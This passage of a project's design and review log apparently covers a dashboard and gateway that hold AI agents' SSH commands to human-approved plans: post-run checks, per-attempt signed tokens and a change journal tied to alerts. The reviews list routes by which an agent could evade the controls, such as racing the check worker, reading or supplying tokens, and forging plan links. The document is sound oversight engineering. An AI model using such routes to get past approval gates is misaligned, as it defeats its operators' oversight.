* **Restart:** an item left `running` or `pending` becomes `not_run` with
  `check_interrupted` on startup and is never re-dispatched; a duplicate F5
  post does not dispatch twice; a transition with a stale token is abandoned.
* **Order (AN1):** through the real `receive_request`, a later item's exact
  bytes arriving while an earlier item's check is `pending` or `running` come
  back pending and consume nothing; the same bytes after the check `passed`
  are claimed; a plan whose earlier item has **no** check never blocks.
* **The check plan (AN2):** it is created `approved` with the parent's
  approver and `parent_plan_id`, and its `until` is never later than the
  parent's; `create_plan(origin='check')` without the sentinel is refused and
  every other origin still gets `proposed`; ending, denying or stopping the
  parent ends the check plan, and a check dispatched after that claims
  nothing.
* **The worker (AN3):** `/api/exec-result` returns with the item `pending`
  and no `ssh_exec` call; the worker sets and resets the agent context even
  when the attempt raises; a duplicate enqueue for one token runs once.
* **No limits (AN4):** an old gateway's request consumes no use and creates
  no approved row, and the item ends `not_run` / `check_no_limits`.
* **Attempts (AN5):** `check_attempts` never exceeds `retries + 1` in
  `normal` mode, and a self-claim cannot spend two uses.
* **Round 3 (AR1–AR7):** a two-use write whose check is `running` — its second
  claim comes back pending (`b.id <= i.id`); in `approval` mode a card for an
  approved item's exact bytes carries the check and shows its bytes, a second
  identical request gets no check, a different session or different bytes gets
  no link, and an agent-supplied plan/item id is ignored; a check plan with
  two items is refused, and a prefix or wildcard does not claim; `add`,
  `edit` and `remove` on a check plan are refused; a revoked token, a changed
  mode or a tripwire freeze naming the agent or session gives `not_run` /
  `check_agent_inactive` and stops the plan before an attempt and before a
  retry, while an operator freeze alone still runs the check; the bytes that
  run equal the approved bytes and the row's `run_limit` is
  `min(30, default)`; an agent's racing request cannot claim the check (no
  token) and a wrong token consumes nothing; the `CHECK_INTERNAL` AST test
  passes; History reads `approved via plan #P`; the item has no output
  column, while the F5 row keeps the ssh output like any request's.
* **Freeze:** a check runs during an operator freeze (reads keep working) and
  the plan state is unchanged by it.

#### 13. What changed in round 2

| item | where | change |
|---|---|---|
| AN1 | §3.2, §8 | `_claim_candidate` refuses a later item while an earlier item's check is open (`pending`/`running`), so a check stops the plan *before* the next item can run; `passed` releases it, no check never blocks |
| AN2 | §3.1 | the check plan is created **approved**, inheriting the parent's approver, `parent_plan_id` and expiry (no later than the parent's), and ended with the parent; `create_plan` refuses `origin='check'` without the private sentinel |
| AN3 | §9 | the F5 handler only writes `pending`; a bounded queue of two workers runs the check, with `set_current_agent` in a `finally` and token-guarded transitions; the sweep covers `pending` |
| AN4 | §3.2, §5 | `receive_request` only claims a check origin when the request reports `run_limits: v1`; otherwise nothing is consumed and the item becomes `not_run` / `check_no_limits` |
| AN5 | §3.3, §9 | `check_attempts <= retries + 1` on the parent item is the bound in every mode; `max_uses` is claim-side only and the worker never self-claims |

`bash scripts/verify.sh`: `2765 passed, 22 skipped, 8 warnings in 570.39s (0:09:30)` (docs only).

### Implementer notes

**Code round 1 — §3 and §4 built, with AV1 and AV2. Status: to both reviewers.**

**What shipped.** `core/checks.py` (validation, the F5 hook, the worker, the
expect comparison, the sweep), the `check_*` columns on
`session_plan_items`, `parent_plan_id`/`stopped_*` on `session_plans`,
`requests.plan_item_id`, the `check` origin and its sentinel
(`db.session_plans.CHECK_INTERNAL`), the plan claim's AN1 rule, the
approval-mode link, the UI (the check under each plan item, its state, and
the red card line), and `check_plan`'s output. One commit, no code outside
this chunk except the two small ssh_crypto/ssh_exec additions AV1 needs.

**AV1 — the token.**

* **Per attempt, random.** `secrets.token_urlsafe(24)` (144 bits), a new one
  for **every** attempt (`rotate_check_token`, conditional on
  `check_state='running'` and the previous token). The token is stored only
  on plan rows: the parent item's `check_token` and the one-item check
  plan's item. An attempt's claim matches `check_token` equality, so an
  earlier attempt's token cannot spend a later attempt.
* **Never returned.** The request row's reason is
  `plan-check:<check_plan>:<check_item>`; the token is not in it. The plan
  row getter pops `check_token` (`_row_to_plan`), so no plan view, no
  `check_plan`, no `session_summary` and no audit row carries it (tests
  assert this for each).
* **Only inside the dashboard's signature.** The design's escape hatch is
  used: F12's signed fields gained a **`check_token`** field (canonical
  **v2** when it is present; a call without it is byte-for-byte v1, so
  every existing signature and the shared vector are unchanged). The
  gateway parses `ESHU_CHECK_TOKEN` (base64url 16–128), puts it in the v2
  canonical, and forwards it in the `/api/request` body;
  `receive_request` honours it **only** when `force_jit` is true (a
  dashboard-signed request) and the token matches. A direct SSH request
  with the token claims nothing. An older gateway does not know the prefix
  key and refuses the call, so the check ends `not_run` — fail closed, and
  no compatibility risk for ordinary calls.
* **Tests:** the direct-SSH request does not claim; the signed one does and
  the stored row has `plan-check` (no token); attempt 1's token cannot
  spend attempt 2; a wrong token consumes nothing; a gateway without
  `run_limits: v1` consumes nothing; the audit row has no token.

**AV2 — the card.** `checks.card_warning(request_id)` reads the plan behind
a linked card and returns `open` (pending/running) or the earlier check's
`failed`/`not_run`, with the text; `/api/requests/{id}/context` carries it
and the sidebar renders it as a red section **above** the Approve buttons.
A denied card (`/api/deny`) and an expired one (`expire_stale_requests`)
release the item's `check_request_id`, so a re-sent request for the same
bytes carries its check again.

**Refinements to state for the reviewer.**

* **Only ssh checks get a check plan.** A tool check runs through
  `run_tool`'s read path under the plan's agent: a read auto-runs, so an
  approved one-item plan for it would buy nothing. §3.1's "or the tool
  call" is therefore implemented as "ssh only"; the stop and the storage
  are identical.
* **An ordinary claim never matches a check plan.** `_claim_candidate`
  excludes `origin='check'` for every caller; a check plan is spent only by
  `claim_check_item` with the attempt's token (AR3).
* **The tripwire is read strictly.** AR4 says a tripwire freeze that names
  the agent or session refuses. F24 has not shipped and the key has no
  naming data yet, so **any** non-empty `meta.tripwire_freeze` makes the
  check `not_run` / `check_frozen`. Stricter than the note on purpose; F24
  can narrow it. Please confirm.
* **`ssh_exec` gained `force_jit`** (a forced JIT can only add gating), so a
  `normal`-mode agent's check still goes through the dashboard's claim. F16
  adds the same parameter on its branch.
* **A check plan is created by the worker, not the hook**, so the claim has
  a plan to match before `ssh_exec` runs; the hook only writes `pending`
  and enqueues (§9). An enqueue onto a full queue leaves `pending`, and the
  sweep (startup and every worker idle cycle) makes it `not_run`.
* **`check_attempts` bounds both modes**; `max_uses = retries + 1` on the
  check plan; a `not_run` never retries.

`bash scripts/verify.sh`: `2824 passed, 22 skipped, 7 warnings in 595.39s
(0:09:55)`.

### Reviewer notes

_(reviewer)_

**Design round 1 (feature reviewer, 2026-11-11, at `93af9f2`): changes requested, AN1–AN5. Then to the security reviewer.**

The shape is right:
* a check is approved with its item, re-checked as a read at run time,
  and limited by F19;
* `not_run` is never `passed`;
* `expect` is strict about types;
* a restart never re-dispatches;
* a stopped plan's items fall through to a card.

Three gaps would break the core promise, though.

* **AN1 (must): the order of items. A check stops the plan only if the next
  item waits for it.**
  * A check is dispatched after F5's post and can take up to 240 s.
  * Nothing stops the agent from claiming item 2 in the meantime: the plan
    is `approved`, and item 2 has a use left.
  * So "a failed check stops the remaining items" is too late for any item
    the agent ran during the check.

  **Fix:**
  * While any item of the plan has `check_state` in `pending|running`, or
    has run with exit 0 and its check is not yet decided, `_claim_candidate`
    does not return a **later** item of that plan (by item order). Those
    items fall through to a card, exactly like a stopped plan.
  * An item whose check `passed` releases the next item.
  * An item with no check releases it at once, as today.

  **Test:** through the real `receive_request`, item 2's exact bytes arrive
  while item 1's check is `running`, and they come back pending.
* **AN2 (must): the check plan is created `proposed`, and only an approved
  plan can be claimed.**
  * § 3 calls `create_plan(origin='check')` and then dispatches, but
    `_claim_candidate` matches `p.status='approved'` only. As written, every
    check claims nothing.
  * **Say how it becomes approved without a human.** It is created already
    approved, inheriting the parent plan's approval:
    * `decided_by` is the parent's approver, with `parent_plan_id` stored;
    * its expiry is no later than the parent's;
    * it is ended when the parent is denied, ended or stopped.
  * Only `core/checks.py` may create a plan in that state; `create_plan`
    keeps `proposed` for every other caller.
  * **Test:** a check plan whose parent was ended before dispatch claims
    nothing.
* **AN3 (must): the check runs off the request thread.** The "post-result
  hook" is F5's `/api/exec-result` handler, which is the gateway's own POST.
  Running `ssh_exec` plus waits and retries there (up to 240 s) holds that
  POST open past its timeout, and blocks a worker. **Fix:**
  * dispatch to a bounded background worker (one per plan, a small global
    cap);
  * the handler only writes `check_state='pending'` and returns;
  * `set_current_agent` is set and reset inside the worker, in a `finally`.

  The startup sweep (§ 9) then also covers `pending`.
* **AN4 (must): refuse the claim when the gateway cannot limit.**
  * § 5 says the row "is left pending" when the request reports no
    `run_limits: v1`, but the claim happens in `receive_request`. Check the
    capability there, **before** `claim_plan_item`: a `check`-origin claim
    from a request without `run_limits: v1` does not consume a use and
    creates no approved row.
  * The worker records `not_run` / `check_no_limits` when `ssh_exec` comes
    back pending.
  * **Test:** with an old gateway, the item's `uses` is unchanged.
* **AN5 (should): one counter bounds the attempts.**
  * In `normal` mode the design marks the item used before dispatch. But
    `receive_request` also claims from any origin in `normal` mode (it
    passes `origins=None`), so one attempt can spend two uses. And an
    allowlisted check command never posts a request at all, so it spends
    none.
  * Make `check_attempts <= retries + 1` on the parent item the bound,
    checked in the worker before each attempt, and leave `max_uses` as the
    claim-side limit only.

_(security reviewer)_

**Security review (2026-11-11, at `96159d0`): both §11 questions are
accepted, on AR1–AR4 (must). AR5–AR7 are should-fixes. After the fold, the
feature reviewer checks AR5–AR7, and I re-read §3 and §4.**

**§11.1, the `check` origin: accepted, with conditions.** In `approval` mode
a human approves the exact bytes before they run. A check meets that only
because:
* its bytes are shown on the plan card and can't change afterwards;
* it is a read when proposed and again at run time;
* the dashboard dispatches it, not the agent;
* it runs once per approved attempt, under F19's limit.

All of AG1's six conditions apply to `check` exactly as they do to `probe`:
* only server code sets the origin;
* agents can't edit the plan;
* the claim checks the session owner;
* nothing else moves;
* it is tested with the real `receive_request`.

AR1–AR4 close the gaps in that argument.

**§11.2, the row shape: accepted.**
* The row is `unattended=1` with the F19 limit.
* Without `run_limits: v1`, the check is `not_run`, nothing is consumed and
  no row is approved.
* At the gateway, AF1 still applies: an unattended row whose limit is
  missing or invalid is refused.

* **AR1 (must): AN1's rule must also cover the item itself.**
  * The `NOT EXISTS` clause compares `b.id < i.id`. So an item with
    `max_uses > 1` can be claimed again, and its write run again, while its
    own check is still open.
  * **Fix:** use `b.id <= i.id`.
  * **Test:** a two-use write item whose check is `running`. Its second
    claim comes back pending.
* **AR2 (must): say how the item's run is tied to its check in `approval`
  mode.**
  * Under `force_jit`, an agent-origin plan's items are not claimable (AG1).
    So in `approval` mode the item's command arrives as an ordinary card,
    and §2 doesn't say how its exit 0 is linked back to the plan item.
  * Either:
    * the link is made by server code when the card is created: same
      session, host and exact bytes as an approved item that carries a
      check. That card shows "a check will run after this" with the check's
      bytes, so the human approving the write sees what follows it.
  * Or:
    * checks run in `approval` mode only after items claimed from a
      server-origin plan, and the note says so.
  * Either way, nothing the agent sends can create the link.
* **AR3 (must): the check item matches exact bytes on an exact host.**
  * The claim of a check-origin item compares the whole command for
    equality on the one host. There is no pattern, prefix or `*` matching,
    whatever F3 allows for agent items.
  * The check plan has exactly one item, and it is closed to `add`, `edit`
    and `remove` through every agent path.
* **AR4 (must): re-check the agent's standing at run time.**
  * Before every attempt, the worker confirms that the plan's agent is still
    enabled, its token is not revoked, and its mode is re-derived from its
    own policy.
  * If not, the check is `not_run` with `check_agent_inactive`, and the
    plan stops.
  * A freeze from the F24 tripwire that names this agent or its session has
    the same effect. Ordinary reads during an operator freeze still run,
    as §10 says.
* **AR5 (should): don't wrap the command.**
  * If "the check's own `timeout`" means running `timeout 30 <cmd>`, the
    bytes that run are not the bytes approved and parsed.
  * Set the row's `run_limit` seconds to `min(30, default)` instead, and run
    the approved bytes unchanged.
* **AR6 (should): the agent can race the worker for the check plan's uses.**
  It can send the same bytes in the same session. It gains nothing it was
  not approved for (its own run is also a limited unattended row), but it
  can force `check_unclaimed`.
  * If the plumbing allows, bind the claim to the worker's attempt: the
    attempt's `check_token` travels in the dashboard-built request.
  * Otherwise, test that a raced use ends `not_run` / `check_unclaimed` and
    that the plan stops.
* **AR7 (should): the sentinel and the audit.**
  * `CHECK_INTERNAL` gets the same AST test as F21's sentinel: it is
    referenced only by its definition, its comparison and
    `core/checks.py`.
  * History shows a check plan as "approved via plan #P". It must not read
    as a fresh human decision.
* **Nit:** §7 says the check's "output itself is never stored". For an ssh
  check, the F5 result row stores it like any request's output. That is
  fine for an approved read, but correct the sentence.

### Design round 3 — AR1–AR7 and the output nit (design round)

AR1–AR4 are folded into the sections the reviewer names; AR5–AR7 and the nit
are folded too, for the feature reviewer's check. §3 and §4 are the two
sections the security reviewer re-reads.

* **AR1 (§3.2, §8).** `b.id <= i.id`, so an item's own next use waits for its
  own check. Test: a two-use write with a running check comes back pending.
* **AR2 (§2, §10).** In `approval` mode the card links the item to its check
  by a server-side match (same session, host and whole command; one item, one
  link), `requests.plan_item_id` carries it, the F5 hook reads it from the
  row, the card shows the check's bytes, and the agent can neither make nor
  forge the link. The review's alternative — checks only after items from
  server-origin plans — would drop checks from the mode the feature exists
  for, so it is not taken.
* **AR3 (§3.1).** One item, exact bytes on one host; no pattern or prefix;
  the check plan is closed to `add`, `edit` and `remove` at every agent path.
* **AR4 (§4).** Before every attempt: the token exists and is not revoked,
  the mode is re-read from the policy, and a tripwire freeze naming the agent
  or its session refuses — `not_run` / `check_agent_inactive`, plan stopped.
  An operator freeze alone does not stop a read.
* **AR5 (§5).** No `timeout` wrapper: the row's `run_limit` is
  `min(30, default)` and the approved bytes run unchanged.
* **AR6 (§3.2).** The claim's reason carries the item's `check_token`, and
  only an exact match claims a `check`-origin item; an agent's racing request
  cannot spend the use.
* **AR7 (§10, §12).** `CHECK_INTERNAL` gets the F21-style AST test
  (definition, one comparison, `core/checks.py` only); History shows a check
  plan as "approved via plan #P"; `check_token` is never exposed.
* **Nit (§7).** The output sentence now says the F5 result row keeps an ssh
  check's output like any request's, and the item keeps only the observed
  value.

| item | where | change |
|---|---|---|
| AR1 | §3.2, §8 | `b.id <= i.id`; the item's own next use waits for its check |
| AR2 | §2, §10 | server-made card link, `requests.plan_item_id`, the check on the card; the agent cannot create the link |
| AR3 | §3.1 | one item, exact bytes on one host, no pattern, closed to edits |
| AR4 | §4 | agent standing re-read before every attempt; a tripwire freeze naming the agent/session is `check_agent_inactive` |
| AR5 | §5 | no `timeout` wrapper; `run_limit` = `min(30, default)` |
| AR6 | §3.2 | the claim's reason carries `check_token`; exact match only |
| AR7 | §10, §12 | sentinel AST test; History "approved via plan #P"; the token is never exposed |
| Nit | §7 | the F5 row keeps the ssh output; the item keeps only the observed value |

`bash scripts/verify.sh`: 2765 passed, 22 skipped, 8 warnings in 570.56s (0:09:30) (docs only).

**Design round 3 check (feature reviewer, 2026-11-11, at `1a4aa20`): the should items AR5–AR7 are in; to the security reviewer for § 3 and § 4.**

AR5–AR7 are in:
* there is no `timeout` wrapper;
* the claim is bound to `check_token`;
* there is a `CHECK_INTERNAL` AST test, and History reads "approved via
  plan #P".

**One point for the security re-read of AR6:** the claim is bound by a token
carried in the request's reason. Make sure that the token:
* is random (≥ 128 bits);
* is never returned to the agent (`session_plan`, `session_summary`,
  `check_request`, History);
* is not accepted from a reason the agent can set on a direct-SSH request.

Otherwise, the agent could race the worker with the same bytes and the
token.

_(security reviewer)_

**Security re-read (2026-11-11, at `5d37366`): §3 and §4 are approved for
code, with AV1 (must, the token) and AV2 (should). The feature reviewer
checks both. I review the code.**

AR1–AR4 are in as asked:
* the own-item `<=` rule;
* the server-made link in `approval` mode, with the check shown on the card;
* the one-item, exact-bytes check plan, closed to edits;
* the agent's standing re-read before every attempt.

* **AV1 (must): the `check_token`, which answers your three points.**
  1. **Random, and per attempt.** Use `secrets.token_urlsafe(16)` or longer,
     and generate a new token for **every attempt**, not once per check. On
     any decision the token is cleared. A token seen on attempt 1 then can't
     spend attempt 2's use.
  2. **Never returned to the agent.**
     * The reason travels in the request row, and the agent can read its
       own requests (`check_request`, `session_summary`, request lists).
     * So `receive_request` strips the token **before** it stores the row.
       The stored reason is `plan-check:<plan>:<item>`.
     * The token never appears in `session_plan`, History, the audit log or
       the dashboard's own log lines.
     * Compare with `hmac.compare_digest`.
  3. **Not accepted from a reason the agent can set.**
     * On direct SSH the agent writes the reason, and `ssh_exec` takes a
       `reason` argument. A token in the reason is only an obstacle,
       because it also travels through the gateway host, where processes
       and logs can be read.
     * So `receive_request` honours a `plan-check:` token only on a request
       that F12's dashboard signature covers. The token has to be one of the
       fields the dashboard key signs, so only the dashboard's own runner can
       produce it.
     * Any other request is never parsed for a token: it falls through to a
       card and consumes nothing. If F12's signed fields don't include the
       reason today, add a signed `check_token` field rather than reading it
       from free text.
  * **Tests:**
    * the agent's `ssh_exec` with the correct reason and token doesn't
      claim;
    * a direct-SSH request with the token doesn't claim;
    * the stored request row and every MCP read lack the token;
    * attempt 2 refuses attempt 1's token.
* **AV2 (should): `approval`-mode cards and the link.**
  * In `approval` mode every item arrives as a card, so a "stopped" plan
    doesn't hold anything back by itself. A card that the server links to a
    plan where an earlier item's check is open, `failed` or `not_run` says
    so on the card, in red, above Approve.
  * When the linked card is denied or expires, release the link (clear
    `check_request_id`). Then a re-sent request for the same item carries
    its check again, rather than running without one.

### Reviewer notes (main feature reviewer, 2026-11-12, code round 1)

The shape is right:
* the token is a fresh `token_urlsafe(24)` (192 bits) per attempt, rotated on retry, and inside the v2 MAC;
* v1 bytes are unchanged when there is no token;
* an old gateway refuses the unknown key, so the check ends `not_run`;
* the claim is bound to the token, a one-item `check` plan, the exact host and the exact command;
* the stored reason is `plan-check:<plan>:<item>`;
* `check_token` is not a parameter of the MCP `ssh_exec` tool, so an agent cannot pass one.

The three refinements are accepted: only ssh checks get a plan, a non-empty `tripwire_freeze` is read strictly as `check_frozen` until F24, and `force_jit` only adds gating. **This chunk now changes gateway bash, so the security reviewer signs off the gateway hunk as well (§ 2.6a).**

* **AY1 (must): the installers were not regenerated.** `dashboard/eshu-gateway.sh` gained `ESHU_CHECK_TOKEN`, but `dashboard/eshu-gateway-install.sh` and `dashboard/static/eshu-gateway-install.sh` do not contain it, so a gateway installed from this branch would refuse every check prefix. Regenerate all three (§ 2.2), and add a test that each installer embeds the gateway script byte for byte, if `verify.sh` does not already check it. It passed with them out of date.
* **AY2 (should): the gateway forwards a token only from a verified signed prefix.**
  * Today `check_token` is posted whenever `ESHU_CHECK_TOKEN` is set. The dashboard is safe only because it also requires `force_jit`, which happens to be a manifest key.
  * Make it explicit:
    * add `ESHU_CHECK_TOKEN` to the `MANIFEST_PRESENT` trigger, so a token without a full signed prefix is refused;
    * post `check_token` only when the signature verified;
    * on the dashboard, honour it only when the verified agent equals the check plan's agent.
  * Test: a prefix with only `ESHU_CHECK_TOKEN` is refused by the gateway.
* **AY3 (should): the owner check.** `_claim_check_candidate` has no agent condition, while `claim_plan_item` checks the session's owner (AG1). The token already binds the claim, but add `p.agent = ?` so every claim path carries the same rule.
* **Merge order:** `fix/gateway-hardening` goes first (it is ready for security). This branch then rebases, re-adds its two gateway hunks and regenerates the installers. `ssh_exec(force_jit=)` is in both F16 and F22: the second to merge keeps one definition with the semantics "can only add gating", and both test sets must pass.

### Code round 2 — AY1–AY3 (implementer notes)

**Status: AY1, AY2 and AY3 are in. Not rebased on `fix/gateway-hardening`, as
asked.** The two gateway hunks stay: the `ESHU_CHECK_TOKEN` key and its
charset check, and the v2 canonical/body. When that branch merges, this one
re-adds them and regenerates the installers again.

**AY1 — the installers are regenerated.** `python3 dashboard/gen_installer.py`
was run after the gateway change, so `dashboard/eshu-gateway-install.sh` and
`dashboard/static/eshu-gateway-install.sh` both carry `ESHU_CHECK_TOKEN` (8
occurrences each), and `dashboard/static/dev/eshu-gateway-install.sh` is
written from the same bytes, as it is on this branch (the Edge pipeline
rewrites it at runtime). The new test
`test_f22_installers_embed_the_gateway_byte_for_byte` reads
`dashboard/eshu-gateway.sh`, asserts the token is in it, and asserts that
whole text appears in each of the three installers — so a source change
with stale installers now fails the gate.

**AY2 — only a verified prefix can carry a token.**

* `ESHU_CHECK_TOKEN` is in the `MANIFEST_PRESENT` trigger, so a token with
  no full signed prefix is an incomplete manifest and is refused (the
  new gateway test posts only that key and no request reaches the
  dashboard).
* The prefix is parsed and the v2 canonical is computed as before (the
  token must be in the MAC), but the request body now posts
  `ESHU_CHECK_TOKEN_VERIFIED`, which is set only in the `SIG_STATE="ok"`
  branch after the MAC verified. A failed signature forwards nothing.
* The token is initialised at the top with the other prefix state, so
  `set -u` is safe when a normal signed prefix carries no token.

**AY2/AY3 — the dashboard honours it only for the plan's agent.**
`claim_check_item(..., owner=agent)` passes the request's verified agent,
and `_claim_check_candidate` requires the check plan's session owner to be
that agent — the same rule `claim_plan_item` (AG1) applies. There is no
`session_plans.agent` column; a plan's agent is its session's owner, so
the condition is the `sessions` EXISTS join rather than `p.agent = ?`.
Tests: a claim sent as `agent-b` consumes nothing, and the existing token
claims pass the owner explicitly.

`bash scripts/verify.sh`: `2827 passed, 22 skipped, 7 warnings in 599.59s
(0:09:59)`.

### Code round 3 — rebase onto `1865321` (implementer notes)

**Status: rebased; to the security reviewer.** The branch is now based on
`1865321` (the roadmap with `fix/gateway-hardening`'s AF3, the tee capture
and the RR1 installer hotfix merged), not on `363b8d1`. The two gateway
hunks (`ESHU_CHECK_TOKEN` and the v2 canonical/body) sit on top of the
hardening branch's gateway script, and AF3/S1/the tee capture are
untouched; the diff against the roadmap is the 22 F22 lines in
`eshu-gateway.sh` plus the F22 code.

* **Installers, four files.** `python3 dashboard/gen_installer.py` was run
  on the rebased tree, and the generated installer was copied over
  `dashboard/static/dev/eshu-gateway-install.sh`. The four files are the
  template (`dashboard/eshu-installer-template.sh`) and the three generated
  copies; the three are byte-identical and all carry
  `ESHU_CHECK_TOKEN`, RR1 and AF3. `test_f22_installers_embed_the_gateway_byte_for_byte`
  now rebuilds the generator's output from the template + the three
  sources and requires every committed installer to equal it, so a stale
  copy (including the dev one the deploy resets) fails the gate.
  `tests/test_gateway_hardening.py` and `tests/test_installer.py`
  (including BE2) pass.

`bash scripts/verify.sh`: `2940 passed, 26 skipped, 7 warnings in 624.14s
(0:10:07)`.

### Reviewer notes (main feature reviewer, 2026-11-12, code round 2)

**AY1–AY3: approved from the feature side.**
* AY1: the installers are regenerated, and a test now holds all three to the gateway script byte for byte.
* AY2: `ESHU_CHECK_TOKEN` triggers the full signed-prefix rule. Only `ESHU_CHECK_TOKEN_VERIFIED`, set in the `SIG_STATE=ok` branch, is posted, and both variables are cleared at the top of the script, so an inherited environment cannot set them.
* AY3: the owner join matches `claim_plan_item`'s rule.

**Next:**
1. Rebase on `feature-roadmap` once `fix/gateway-hardening` is merged there. Keep both sides' gateway changes, regenerate the installers, run verify.sh, and push.
2. Then the security reviewer reads the gateway hunk and the chunk (§ 2.6a).

---

## Chunk F23 — Change journal tied to alerts · slug `change-journal` · dashboard only

### Goal

A per-host timeline of what Eshu changed, with that host's Pulse alerts next
to it. It shows things like "this alert started four minutes after request
#1234".

### Design

* **Sources, all read-only.**
  * Requests on the host, including the rows whose F7 inner target is a
    guest on it:
    * the rows that ran (`approved`/`consumed`) and that F1 labels as having
      a write or unknown step;
    * with their F5 exit code and their session.
  * Integration writes from the audit log (F10 actions, NPM and Proxmox
    writes, F21 snapshots and rollbacks), mapped to a host through F14's
    inventory.
  * Pulse alerts (`list_alerts`, `scope=history`) for the resources that
    F14's inventory maps to the host (by IP or by vmid). This is read
    through `read_policy`, the same way as `core.inventory._call_tool`.
* **View.** A "Changes" tab on the host page, plus a link from a request's
  sidebar:
  * one timeline with the last 7 days by default (a 1–30 day range);
  * changes and alerts are shown with different marks;
  * commands are shown through `scrub_string`, capped at 120 characters,
    and the full text is in the sidebar.
* **Tie-in.** An alert that **started** within 30 minutes after a change on
  the same host gets a badge naming the change and the gap ("+4 min after
  #1234"). If several changes came before it, the nearest one is named and
  the rest are counted. This is shown as a hint; Eshu never states it as a
  cause.
* **Cost.** Pulse is read once per view and cached for 60 s. If Pulse is
  missing or errors, the timeline still shows the changes, with "alerts
  unavailable".
* **API.** `GET /api/hosts/{ip}/changes?days=N` returns JSON, for the
  operator only. It is not an MCP tool in this chunk; a later chunk can add
  an agent tool.

### Tests to add (outline)

* A write on the host appears; a read, another host's write, and a
  row that never ran do not.
* An inner-target write on a guest shows on that guest's host.
* An alert 4 minutes after a change gets the badge; one 40 minutes after,
  or one before the change, does not.
* Pulse down still shows changes.
* Commands are scrubbed.
* The Pulse read is refused if the tool is reconfigured as a non-read.

### Compat impact

Read-only. No migration beyond an optional index on
`requests(target_ip, created_at)` if the design note measures a need for one
on the live-DB copy.

### Acceptance criteria

The tests pass, and on the private live-DB copy the page builds for the
busiest host in under 1 s (measured, kept out of the repo).

### Implementer notes

**Built as a modal, not a tab.** There is no per-host page to hang a tab on:
hosts are rows in the Gateways table and the sidebar views are a fixed list
(`VIEWS` in `app.js`), so a "Changes" tab would mean a new view, a route and a
way back to the host. The row now carries a **Changes** chip next to
**Remove**, and it opens a modal built like the Override one — same
`.modal-overlay .widget` markup, same open/close helpers, a 7/14/30-day
select. The request-sidebar link from the design is **not** built; a change row
in the modal shows its request id and session, which is the same information
in the other direction.

Backend, `dashboard/core/change_journal.py`:

* **Requests.** One query for `requests` rows on the host in the window
  (joined to `request_results` for the F5 exit code and `sessions` for the
  agent/goal), then filtered in Python: `status` in `EXECUTABLE_STATUSES`
  (`approved`/`consumed`) and F1's `breakdown()` reporting at least one
  `write` or `unknown` step. The F7 `inner_target` is shown on the row, so a
  `pct exec 101 …` write on a node names the guest.
* **Integration writes.** `integration_calls` rows with `outcome='ok'` whose
  method is `POST`/`PUT`/`PATCH`/`DELETE`, or whose method is `WS` and whose
  tool is not marked `read_only` (F10's actions are WS; a tool that has since
  been deleted is not claimed as a change). Plus `audit_log` rows for
  `AUDIT_CHANGE_EVENTS` — today `version_updated`, the gateway update Eshu
  performed on that host. **Note for the reviewer:** `audit_log` has no row
  per integration write; the per-call audit row is `integration_calls`, which
  is where every executor records one. The constant is the single place to
  extend when a later chunk starts writing host changes into `audit_log`.
* **Mapping to a host, through F14.** `host_identities(ip)` is the IP, the
  names/FQDNs of any inventory entity that claims it, and the names/VMIDs of
  the guests whose `host` is this host. A call's host is its own
  `host`/`resolved_ips` when set, else the integration's `base_url`; a Pulse
  alert is matched on `resourceId`/`resourceName`/`node`/`id`. Matching is
  boundary-aware, so `192.0.2.10` does not match `192.0.2.100` and vmid `104`
  does not match `1040`.
* **Pulse** is read through `core.inventory._call_tool`, which is the same
  read-policy gate every inventory source goes through — a tool reconfigured
  as a non-read is refused before anything is sent (tested). The result is
  cached under the integration name for 60 s and filtered per host and
  window, so opening two hosts is one upstream read. Any failure degrades to
  `alerts_error` with the changes still shown.
* **The tie-in** names the nearest change at or before an alert's
  `startTime`, within 30 minutes, and counts the others; it is rendered as
  "+4 min after #1234" and never as a cause.

**Measured** on a synthetic DB (20 000 requests over 40 hosts and 30 days,
2 000 on the busiest host, 2 000 integration calls, 500 alerts): `changes_for_host`
takes **28 ms** for 7 days (493 changes, 107 alerts, 233 KB of JSON) and
**149 ms** for 30 days (2 134 changes, 1.0 MB). The worst case — 2 000
*distinct* commands on the host in 7 days, so F1 cannot reuse its cache — is
**256 ms**. That is well inside the 1 s acceptance and the margin is large
enough that a slower machine does not change the answer, so **no index is
added**: `idx_requests_inner_target` already covers the `target_ip` prefix, and
the query over 2 482 host rows takes 8 ms.

The first measurement was 364 ms for 7 days because `integration_changes`
looked up the integration (and, for WS rows, the tool) once **per call row** —
an N+1. Both are now one lookup per integration and one per (integration,
tool) pair; that is where the 13× came from.

Tests, `tests/test_f23_change_journal.py` (29): the write appears; a read,
another host's write, a never-run row and an out-of-window row do not; the
unknown step counts; the inner target and the session are named; the command
is scrubbed and capped; integration writes count, reads/errors/refusals do
not; a WS write counts and a read-only WS tool does not; the gateway update
comes from the audit log; an alert 4 minutes after a change is tied, 40
minutes after is not, and one before is not; the nearest is named and the
others counted; an alert on another host is not shown; Pulse down, missing and
non-read all still show the changes; the read is cached; days are clamped; a
bad host is refused and an unknown one is empty; the identity matcher is
boundary-aware; the API is operator-only, returns the timeline, clamps 0/999
and refuses a non-IP.

Compat: read-only. No migration, no new table, no MCP tool.

**Round 1 — AJ1 and AJ2 (2026-11-11).** Both folded in.

* **AJ1.** A name now matches only as a whole label:
  `(?<![A-Za-z0-9-])name(?![A-Za-z0-9-])`. The IP and vmid rule is unchanged
  (`(?<![0-9.])…(?![0-9])`), so `192.0.2.10` still does not match
  `192.0.2.100` and vmid `104` does not match `1040`. Tests: `pve` owns
  `pve.example.net` and `pve:pve:104` and not `pve3` / `pve-backup` /
  `pve-backup.example.net`; `web` does not own `webhook.example.net` but does
  own `web.example.net`.
* One thing the label rule alone does not fix, found while testing it: a
  Pulse id is `<cluster>:<node>:<vmid>`, and the first segment is the cluster
  prefix — usually literally `pve`. With the label rule, a host named `pve`
  still owned every `pve:*` alert through that prefix, so `pve:pve3:104`
  stayed on `pve`'s page. The id is now split on `:` and the first segment
  dropped when there are three or more, so the node and vmid segments are
  what match; `pve:pve:104` still belongs to `pve`, `pve:pve3:104` does not.
  This is the same rule for the alert's own `id`, which in Pulse also carries
  the resource id.
* **AJ2.** `get_integrations()` without `include_secret`: the journal reads
  `name` and `base_url` only, so the secret column is never loaded.
* Round 2 tests: 33 in the file (four new), including an end-to-end case where
  a guest named `web` sees its own alert and not `webhook`'s.

`bash scripts/verify.sh`: `2798 passed, 22 skipped, 8 warnings in 591.62s (0:09:51)`.

`bash scripts/verify.sh`: `2671 passed, 22 skipped, 7 warnings in 536.11s (0:08:56)`.


### Reviewer notes

_(reviewer)_

